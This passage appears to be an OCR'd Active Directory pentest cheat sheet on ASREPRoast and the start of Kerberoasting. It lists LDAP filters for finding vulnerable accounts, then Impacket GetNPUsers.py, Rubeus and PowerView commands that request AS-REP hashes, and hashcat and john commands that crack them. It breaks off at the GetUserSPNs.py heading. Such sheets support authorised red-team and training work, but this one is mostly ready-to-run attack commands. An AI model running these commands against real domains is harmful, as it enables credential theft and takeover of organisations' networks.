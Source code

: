 ```
# LDAP filter for non preauth krb users
LDAP: (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

### Linux (external)

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

### Windows (internal)

With [Rubeus](https://github.com/GhostPack/Rubeus):

```
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

# Powerview
Get-DomainUser -PreauthNotRequired

# https://github.com/HarmJ0y/ASREPRoast
```

Cracking with dictionary of passwords:

```
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

## Kerberoasting

> Cracking users password from TGS, because TGS requires Service key which is derived from NTLM hash

```
# LDAP filter for users with linked services
LDAP: (&(samAccountType=805306368)(servicePrincipalName=*))
```

### Linux (external)

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:

